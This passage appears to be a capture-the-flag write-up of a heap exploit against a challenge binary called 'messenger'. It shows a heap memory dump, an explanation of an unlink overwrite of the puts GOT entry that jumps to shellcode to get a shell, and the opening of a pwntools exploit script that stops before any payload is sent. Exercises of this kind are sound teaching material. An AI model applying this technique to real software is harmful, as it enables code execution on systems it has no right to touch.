 - `0x602010` - `puts_got-8`
- `0x6020a8` - address of shellcode

I only put `\xeb\x16` on `0x6030a8` since the side-effect of `unlink`. `unlink` would put `buf_fd` on `buf_bk->bk`.

```
0x603000:      0x0000000000000018      0x0000000000603048           # Head
0x603010:      0x0000000000000000      0x0000000000000031           # First message
0x603020:      0x0000000000603048      0x0000000000603048
0x603030:      0x4141414141414141      0x0000000000000000
0x603040:      0x0000000000000000      0x0000000000000030           # Second message
0x603050:      0x00000000006030a8      0x0000000000602010
0x603060:      0x4242424242424242      0x0000000000000000
0x603070:      0x0000000000000000      0x00000000000003a0           # Top chunk
0x603080:      0x0000000000000000      0x0000000000603048
0x603090:      0x0000000000000000      0x0000000000000000
0x6030a0:      0x0000000000000000      0x00000000000016eb
0x6030b0:      0x0000000000000000      0x0000000000602010           <- buf_bk
0x6030c0:      shellcode
```

Therefore, if we put the **real shellcode** right on the `buf_fd`, our shellcode would be messed up. Use the `jmp 0x18` so that when calling `puts` it will jump to the address of **real shellcode** which is `0x6030c0`. Then... open the shell!


```python
#!/usr/bin/env python
# -*- coding: utf8 -*-
from pwn import * # pip install pwntools
import sys

r = process('./messenger')

def leave(size, msg):
    r.recvuntil('>>')
    r.sendline('L')
    r.recvuntil('size :')
    r.sendline(str(size))
    r.recvuntil('msg :')
    r.sendline(msg)

def change(idx, size, payload):
    r.recvuntil('>>')
    r.sendline('C')
    r.recvuntil('index :')
    r.sendline(str(idx))
    r.recvuntil('size :')
    r.sendline(str(size))
    r.recvuntil('msg :')
    r.send(payload)

def view(idx):
    r.recvuntil('>>')
    r.sendline('V')
    r.recvuntil('index :')
    r.sendline(str(idx))

def remove(idx):
    r.recvuntil('>>')
    r.sendline('R')
    r.recvuntil('index :')
    r.sendline(str(idx))

puts_got = 0x602018
```